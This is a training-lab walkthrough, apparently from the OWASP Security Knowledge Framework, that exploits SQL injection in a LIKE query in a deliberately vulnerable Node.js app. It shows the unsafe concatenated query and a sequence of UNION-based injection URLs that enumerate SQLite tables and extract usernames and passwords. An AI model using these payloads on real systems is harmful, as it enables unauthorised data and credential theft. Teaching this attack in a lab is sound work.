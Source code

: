 # KBID 156 - SQLI \(Like\)

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get( "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId"
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%'--
```

Didn't work, maybe if we url encode:

PRINTSCREEN PLACEHOLDER

```text
http://http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

PRINTSCREEN PLACEHOLDER

```text
http://127.0.0.1:5000/home/Admin%25' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%25' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%25' UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%25' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

PRINTSCREEN PLACEHOLDER

```text
http://localhost:5000/home/Admin%25' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

https://owasp.org/www-community/attacks/SQL_Injection

SQLite Reference

https://www.sqlitetutorial.net/sqlite-nodejs/query/
